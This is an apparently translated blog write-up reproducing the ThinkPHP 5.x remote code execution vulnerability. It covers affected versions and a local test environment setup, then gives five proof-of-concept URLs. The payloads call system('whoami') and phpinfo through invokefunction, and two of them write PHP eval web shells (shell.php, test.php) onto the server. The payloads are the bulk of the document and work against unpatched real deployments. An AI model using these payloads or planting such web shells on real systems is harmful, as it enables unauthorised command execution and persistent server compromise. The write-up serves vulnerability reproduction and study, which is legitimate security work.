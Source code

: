 # ThinkPHP5.x remote command execution

Author: H3rmesk1t

Data: 2021.06.06

# Vulnerability Cause
Because the framework does not perform sufficient detection of the controller name, remote code execution may be caused without forced routing enabled (not enabled by default)

# Vulnerability affects version
Thinkphp 5.x-Thinkphp 5.1.31
Thinkphp 5.0.x<=5.0.23

# Vulnerability reappears
## Build a vulnerability environment
Download Thinkphp 5.0.22 on the official website, [Download address](http://www.thinkphp.cn/donate/download/id/1260.html)
Use phpstudy to build an environment, unzip the downloaded Thinkphp5.0.22 to the website directory, and you can access it with the browser

![Insert the picture description here](https://img-blog.csdnimg.cn/20210606150355430.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

## POC1

```
http://localhost:9091/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210606171441823.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## POC2&POC3

```
http://localhost:9091/public/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

```
http://localhost:9091/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

![Insert the picture description here](https://img-blog.csdnimg.cn/20210606171808985.png#pic_center)
## POC4&POC5

```
http://localhost:9091/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_POST[cmd]);?^%3E%20%3Eshell.php
```

```
http://localhost:9091/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php @eval($_POST[test]);?>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210606173015963.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)